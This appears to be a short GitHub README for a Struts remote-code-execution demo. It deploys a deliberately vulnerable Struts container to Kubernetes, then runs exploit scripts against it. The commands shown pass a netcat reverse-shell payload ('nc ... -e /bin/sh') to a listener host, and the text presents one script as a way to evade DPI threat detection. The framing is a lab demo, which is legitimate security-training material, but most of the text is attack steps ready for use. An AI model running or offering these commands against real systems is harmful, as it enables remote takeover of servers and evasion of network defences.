 # struts-demo
scripts for struts RCE demo and yaml file to deploy vulnerable container running struts super-app tomcat website.
Deploy the struts container via yaml file to kubernetes cluster
kubectl create namespace struts
kubectl create -f struts.yaml -n struts

A service is created for the website.  Use the IP address from the website with the python scripts to exploit a remote code execution vul in the struts container.
k get svc -n struts; k get pods -n struts

Use the struts1.py first (insert your own IP addresses for the website and the reverse shell using 1337 (LEET) port address.
python3 struts1.py http://xxx.xxx.xxx.xxx:8080/super-app/orders/3 'nc -nv 123.456.789.100 1337 -e /bin/sh'

Then use the struts-pwn2.py script to avoid DPI threat detection.
python struts-pwn2.py --exploit --url 'http://xxx.xxx.xxx.xxx:8080/super-app/orders/3' -c 'nc -nv 123.456.789.100 1337 -e /bin/sh'
